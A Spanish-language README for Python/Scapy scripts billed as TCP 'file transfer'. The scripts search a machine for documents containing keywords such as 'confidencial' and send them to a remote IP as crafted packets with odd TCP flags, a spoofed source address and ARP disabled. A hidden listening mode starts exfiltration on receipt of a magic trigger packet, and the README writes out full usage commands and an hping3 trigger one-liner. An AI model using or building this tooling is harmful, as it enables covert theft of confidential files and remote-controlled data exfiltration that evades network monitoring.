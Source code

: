 # Transferencia de Archivos a través de capa de transporte TCP

Este proyecto contiene dos scripts en Python (sender.py y receiver.py) para la transferencia de archivos a través de la red utilizando paquetes TCP. El objetivo principal de estos scripts es permitir la búsqueda de archivos que contengan ciertas palabras clave y enviarlos a través de la red a una máquina destino. El proceso de envío y recepción se maneja mediante paquetes TCP personalizados utilizando la librería Scapy.

## Características
1-. **sender.py**: Permite buscar archivos en un directorio local que contengan ciertas palabras clave y enviarlos a una máquina destino a través de la red.

2-. **receiver.py**: Escucha en una interfaz de red para recibir los paquetes enviados por sender.py y reconstruir el archivo recibido.

## Requisitos
- Python 3.x
- Librerías necesarias:
  - scapy
  - PyPDF2
  - python-docx
  - xlrd
  - openpyxl
  - python-pptx
  - odfpy
    
Puedes instalar las librerías necesarias ejecutando:
```
pip install scapy PyPDF2 python-docx xlrd openpyxl python-pptx odfpy
```

## Uso sender.py
  El script sender.py tiene dos modos de operación:
  
  ### Modo searchAndSend
  Busca archivos en un directorio especificado por palabras clave y los envía a una máquina destino.
    
  #### Ejemplo de uso:
  ```
  python3 sender.py searchAndSend --rootPath <directorio_raiz> --keywords <palabra1,palabra2> --destinationIp <IP_destino> --tcpFlag <flag_tcp>
  ```

  #### Argumentos:
  - **--rootPath**: Ruta del directorio donde comenzar a buscar archivos.
  - **--keywords**: Palabras clave que se buscarán en los archivos. Separadas por comas.
  - **--destinationIp**: Dirección IP del receptor (máquina destino).
  - **--destinationPort**: Puerto de destino (por defecto 80).
  - **--sourceIp**: Dirección IP de origen (por defecto 10.1.0.10).
  - **--sourcePort**: Puerto de origen (por defecto 12345).
  - **--tcpFlag**: Flag del protocolo TCP. Puede ser uno de los siguientes: S, A, P, F, R, U, SA, FA, SF o random.

  #### Ejemplo:
  ```
  python3 sender.py searchAndSend --rootPath ./NAS --keywords confidencial --destinationIp 192.168.1.100 --tcpFlag random
  ```

  ### Modo waitForOrder
  Este modo espera recibir un comando de red para iniciar el envío de archivos. Una vez que el comando es recibido, sender.py buscará y enviará los archivos a la máquina destino.

  #### Ejemplo de uso:
  ```
  python3 sender.py waitForOrder
  ```
  Este comando pone al script en espera de recibir paquetes que contengan la información necesaria para realizar el envío de archivos. El paquete de activación debe comenzar por "1j2k3l4m" seguido de:
  
  - Valor del directorio raiz
  - Palabras clave
  - Dirección ip destino
  - Flag TCP

  Cada valor debe ir separado por "|"
  La cadena inicial "1j2k3l4m" sirve para identificar el paquete que activa el proceso. Se debe ajustar el parámetro -d con la longitud del string.

  #### Ejemplo
  ```
  1j2k3l4m./NAS|seguridad|192.168.1.11|S
  1j2k3l4m/home/user/Documents|planos|10.0.1.11|random
  1j2k3l4m/home/user/Documents|confidencial|198.51.100.12|F
  ```
  Puedes utilizar hping3 para realizar una prueba en la activación del proceso.
  ```
  echo -n "1j2k3l4m./NAS|seguridad|192.168.1.11|S" | sudo hping3 -S -p 80 -s 12345 -d 38 -E /dev/stdin 192.168.1.100
  ```

## Uso receiver.py
  El script receiver.py se utiliza para recibir los paquetes enviados por sender.py, reconstruir los archivos y guardarlos localmente. Solo se necesita ejecutar este script en la máquina que recibirá los archivos.

  #### Ejemplo de uso:
  ```
  python3 receiver.py
  ```
  El script comenzará a escuchar en la interfaz de red especificada (por defecto eth0) para recibir los paquetes y guardar los archivos en el directorio ./OUTPUT.
  
  ### Detalles de funcionamiento

  - **Envío de paquetes**: Los archivos se envían como fragmentos de paquetes TCP que se envían utilizando la librería Scapy. Cada fragmento incluye un identificador único ("magic") para asegurar que los paquetes sean correctamente reconocidos y procesados.

  - **Recepción de archivos**: El script receiver.py escucha los paquetes entrantes y va reconstruyendo el archivo a medida que recibe los fragmentos. Al finalizar la transferencia, el archivo es guardado en el directorio ./OUTPUT.

  #### Formatos de archivo soportados:
  - PDF
  - DOCX
  - TXT
  - XSL
  - XLSX
  - ODT

  Estos formatos son procesados para extraer su contenido y buscar las palabras clave.

## Seguridad
  - **ARP Spoofing**: Para evitar la resolución ARP (Address Resolution Protocol), la variable conf.arp_resolve está configurada a False en el script sender.py, lo que evita que se realicen consultas ARP durante el envío de paquetes.
  - **Dirección MAC estática**: La dirección MAC de destino está hardcodeada en el script como 00:11:22:33:44:55, lo cual podría ser necesario ajustarlo si se utiliza una red diferente.

## Contribuciones
Si deseas contribuir a este proyecto, por favor, realiza un fork del repositorio, realiza tus cambios y abre un pull request con una descripción detallada de las modificaciones.
